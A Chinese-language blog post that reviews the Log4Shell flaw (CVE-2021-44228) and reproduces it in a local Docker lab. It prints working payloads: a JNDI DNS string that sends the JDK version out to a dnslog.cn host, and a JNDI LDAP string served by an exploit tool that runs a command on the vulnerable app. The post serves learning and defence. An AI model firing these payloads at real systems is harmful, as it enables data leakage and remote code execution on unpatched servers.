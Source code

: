 ```yaml
---
title: log4j2漏洞学习
categories: 
- 漏洞分析
layout: post
---
```

## Log4Shell漏洞分析和复现

# 一、漏洞回顾

Log4Shell 漏洞最早是阿里巴巴安全研究员 Chen Zhaojun 早在 2021 年 12 月 10 日发布（早在 11 月 24 日已发现上报），漏洞编号[CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228)。影响 log4j2 2.0-beta9 到 2.15.0 多个版本，攻击者利用 log4j2 写日志时注入 jndi lookup 链接并执行远程命令。鉴于 log4j2 在 Java 生态圈的广泛使用，该漏洞一发现就妥妥到零日漏洞，CVSS（Common Vulnerability Scoring System）评级系统中最严重的 10.

不少同行一定对当初加班紧急修复该漏洞记忆犹新。修复过程中也一波三折，衍生了 CVE-2021-45046，CVE-2021-45105，CVE-2021-44832 等漏洞，最终在 log4j2 2.17.1 版本修复。

# 二、漏洞复现

本文主要基于最初的漏洞在 log4j2 2.14.1 版本进行复现。主要内容包括：

1. 通过 docker 容器复现漏洞应用
2. 通过 jndi dnslog 模拟带外攻击执行系统属性查询
3. 通过 jndi lookup 远程命令执行

## 2.1 复现漏洞应用

复现漏洞依赖 JDK 版本和 log4j2 版本，一般通过容器镜像来比较方便。从网上找了一个应用 fork 出来[漏洞应用](https://github.com/shidongwa/CVE-2021-44228-VULN-APP)。

- JDK：8u102
- log4j2: 2.14.1

运行应用有两种方式:

**_方式 1_**

```
cd CVE-2021-44228-VULN-APP/
docker build -t log4j-shell-poc .
docker run -p 8082:8080 log4j-shell-poc
```

**_方式 2_**（需要本地安装 Docker Desktop）

```
docker pull nu11secur1ty/log4j-vuln-application
docker run  -p 8082:8080 nu11secur1ty/log4j-vuln-application
```

外部通过`http://localhost:8082/`来访问。显示如下：
![](https://github.com/shidongwa/shidongwa.github.io/blob/master/images/2023/091701.png?raw=true)

## 2.2 dnslog 攻击

利用 dnslog 可以进行一种 OOB(Out Of Band)攻击。这里所谓的**带外**指的是不同与原本的业务请求响应数据路径，比如这里的 DNS 请求路径。

OOB 攻击依赖 DNS 泛域名解析。简单来说泛域名解析指的是\*.t831at.dnslog.cn 都会解析到域名 t831at.dnslog.cn 上。通过查看 t831at.dnslog.cn 的域名解析日志就可以看到 dns 查询命令执行的结果。

具体步骤如下：

1. 登陆http://www.dnslog.cn/
2. 点击“Get SubDomain"比如得到域名“t831at.dnslog.cn”
3. 在 2.1 部分部署的漏洞应用页面输入
   - Username: ${jndi:dns://${sys:java.version}.t831at.dnslog.cn}
   - Password: password
4. 在http://www.dnslog.cn/页面点击“Refresh Record"。可以看到 1.8.0_102.t831at.dnslog.cn 中最前面的`1.8.0_102`就是漏洞应用的 JDK 版本。
   ![](https://github.com/shidongwa/shidongwa.github.io/blob/master/images/2023/091702.png?raw=true)

`sys:java.version`中*java.version*可以替换为操作系统名和版本，用户名和目录等系统环境信息。具体可以参考[系统属性](https://docs.oracle.com/javase/tutorial/deployment/doingMoreWithRIA/properties.html)

![](https://github.com/shidongwa/shidongwa.github.io/blob/master/images/2023/091703.png?raw=true)

![](https://github.com/shidongwa/shidongwa.github.io/blob/master/images/2023/091704.png?raw=true)

## jndi 命令执行

这里需要用到一个工具应用[JNDI-Injection-Exploit](https://github.com/shidongwa/JNDI-Injection-Exploit)，这个应用会生成 jndi 远程服务，提供命令给漏洞应用来下载并在漏洞应用中执行。

比如我们需要在漏洞应用中写入一个文件/tmp/success.txt。操作步骤如下：

1. 从 github 下载代码并构建启动服务

```
git clone git@github.com:shidongwa/JNDI-Injection-Exploit.git
cd JNDI-Injection-Exploit.git
mvn clean package
cd target
# 假设192.168.10.104是攻击者服务器ip
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success.txt" -A "192.168.10.104"
```

2. 我们是 java 8，从上面服务的启动日志中获取 jndi 服务地址`ldap://192.168.10.104:1389/5jqrji`。攻击 payload 是`${jndi:ldap://192.168.10.104:1389/5jqrji}`

![](https://files.mdnice.com/user/48760/7716b228-7c70-4663-b7f9-c37560a46381.png)

3. 在 2.1 部分部署的漏洞应用页面输入
   - Username: \${jndi:ldap://192.168.10.104:1389/5jqrji}
   - Password: password
4. 在漏洞主机中验证/tmp/success.txt 确实已写入

```
docker container ls
docker exec -it 95fc bash
ls -al /tmp/success.txt
```

![](https://files.mdnice.com/user/48760/c3b43b55-c4d6-4432-b297-59c2afda8e53.png)

![](https://files.mdnice.com/user/48760/c8de128f-5999-4730-ac3d-f8e4b35b89dc.png)

# 三、总结

通过对 log4j2 漏洞进行了回顾和复现，学习了 log4j2 jndi lookup 功能调用 ldap、dns 执行远程命令。对反弹 shell 和 rmi 等本文未涉及。